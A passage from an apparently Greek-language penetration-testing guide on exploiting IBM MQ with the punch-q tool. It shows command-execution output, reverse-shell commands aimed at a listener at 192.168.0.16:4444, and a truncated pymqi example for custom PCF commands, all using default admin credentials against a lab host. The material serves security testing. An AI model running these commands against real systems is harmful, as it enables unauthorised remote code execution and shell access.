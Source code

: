 Μπορείτε επίσης να απαριθμήσετε τα υπάρχοντα προγράμματα στον υπολογιστή (εδώ `/bin/doesnotexist` ... δεν υπάρχει):
```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command execute --cmd "/bin/doesnotexist" --arg
s "whatever"
Command: /bin/doesnotexist
Arguments: -c id
Service Name: 6e3ef5af652b4436

Creating service...
Starting service...
The program '/bin/doesnotexist' is not available on the remote system.
Giving the service 0 second(s) to live...
Cleaning up service...
Done
```
**Προσοχή, η εκκίνηση του προγράμματος είναι ασύγχρονη. Επομένως, χρειάζεστε ένα δεύτερο στοιχείο για να εκμεταλλευτείτε την ευπάθεια** ***(ακροατής για αντίστροφη κέλυφος, δημιουργία αρχείου σε διαφορετική υπηρεσία, διαρροή δεδομένων μέσω δικτύου ...)***

**Παράδειγμα 2**

Για εύκολη αντίστροφη κέλυφος, το **punch-q** προτείνει επίσης δύο φορτία αντίστροφου κελύφους:

* Ένα με το bash
* Ένα με το perl

*Φυσικά μπορείτε να δημιουργήσετε ένα προσαρμοσμένο με την εντολή `execute`.*

Για το bash:
```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command reverse -i 192.168.0.16 -p 4444
```
Για perl:
```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command reverse -i 192.168.0.16 -p 4444
```
### Προσαρμοσμένο PCF

Μπορείτε να εξερευνήσετε την τεκμηρίωση του IBM MQ και να χρησιμοποιήσετε απευθείας τη βιβλιοθήκη **pymqi** της Python για να δοκιμάσετε συγκεκριμένη εντολή PCF που δεν έχει υλοποιηθεί στο **punch-q**.

**Παράδειγμα:**
```python
import pymqi

queue_manager = 'MYQUEUEMGR'
channel = 'DEV.ADMIN.SVRCONN'
host = '172.17.0.2'
port = '1414'
conn_info = '%s(%s)' % (host, port)
user = 'admin'
password = 'passw0rd'

qmgr = pymqi.connect(queue_manager, channel, conn_info, user, password)
pcf = pymqi.PCFExecute(qmgr)

try:
# Replace here with your custom PCF args and command
# The constants can be found in pymqi/code/pymqi/CMQCFC.py
args = {pymqi.CMQCFC.xxxxx: "value"}
response = pcf.MQCMD_CUSTOM_COMMAND(args)
except pymqi.MQMIError as e:
```